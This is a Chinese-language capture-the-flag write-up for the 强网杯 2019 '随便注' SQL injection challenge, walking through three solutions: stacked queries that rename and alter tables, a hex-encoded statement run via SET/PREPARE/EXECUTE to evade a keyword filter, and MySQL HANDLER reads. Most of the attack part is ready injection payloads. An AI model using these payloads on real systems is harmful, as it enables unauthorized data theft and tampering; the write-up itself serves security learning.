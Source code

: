```yaml
---
title: 强网杯 2019 - 随便注
date: 2024-09-11 21:09:05
permalink: /pages/a7f3bd/
sidebar: false
article: false
author: 
  name: Cola
  link: https://the0n3.top
---
```


参考：

[【BUUCTF[强网杯 2019]随便注 的三种解法】](https://blog.csdn.net/qq_44657899/article/details/103239145)

## 思路一

```sql
?inject=1' or 1='1
?inject=1' union select 1,2
```

使用联合查询，回显`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`，显示出过滤的内容

没有过滤分号，可以堆叠注入。显示当前库表

```sql
?inject=1';show tables;
```

有`1919810931114514`,`words`两张表

显示words表的字段

```sql
?inject=1';show columns from words;
```

![1](https://the0n3.top/medias/daily/sql-test/1.png)

当前查询到的信息和words表中字段符合。php里的sql语句查询的是words表，现在不能使用select语句，不考虑盲注的话，**可以利用php当前的sql语句的select查询，需要先把flag所在的表名改为words**

它的sql语句可能是这样

```php
$sql = "select id, data from words";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
    while($row = $result->fetch_assoc()) {
        echo "id: " . $row["id"]. "data: " . $row["data"]. "<br>";
    }
}
```


看看这个数字表里的字段，直接写数字表名查不到信息，需要给数字表名添加上反引号(又学到了)

```sql
?inject=1';show columns from 1919810931114514;
?inject=1';show columns from `1919810931114514`;
```

现在能看到，数字表里只有一个flag，先把words表随便改个名字，再把数字表名改成words

修改表名后，还需要修改和补充字段，现在的words表里没有id字段和data字段，可以插入id字段，修改flag字段的名字

```sql
?inject=1';show tables;rename table words to wow;rename table `1919810931114514` to words;alter table words add id int;alter table words change flag data varchar(100);
```

现在再使用万能密码就可以把flag爆出来了

```sql
?inject=1' or 1='1
```

## 思路二

使用16进制编码查询语句
```sql
select *from `1919810931114514`;
# 编码后
73656c6563742a66726f6d6031393139383130393331313134353134603b
```

又学到了

::: tip
mysql使用set @变量名=值，设置变量  
prepare from预处理语句，会进行解码操作  
execute执行sql语句  
:::

所以可以使用`prepare from`解码一个16进制编码的查询语句，使用execute来执行，这个过程设置把16进制编码设置成变量更方便

题目提示`strstr($inject, "set") && strstr($inject, "prepare")`，set,prepare不能同时小写

```sql
?inject=1';SeT @a=0x73656c6563742a66726f6d6031393139383130393331313134353134603b;prepare execsql from @a;execute execsql;
```

测试了一下，很舒服哈哈，编码的表名需要使用反引号包裹

![sql](https://the0n3.top/medias/daily/sql-test/sql.png)

## 思路三

MySQL 的底层操作，用于直接访问表的行

```sql
?inject=1'; handler `1919810931114514` open as `a`; handler `a` read next;#
```

解释

```sql
-- 打开表
HANDLER `example_table` OPEN AS `a`;

-- 读取第一行
HANDLER `a` READ NEXT;

-- 读取第二行
HANDLER `a` READ NEXT;

-- 继续读取其他行
-- 直到你读取完所有行

-- 关闭表
HANDLER `a` CLOSE;
```

![handler](https://the0n3.top/medias/daily/sql-test/handler.png)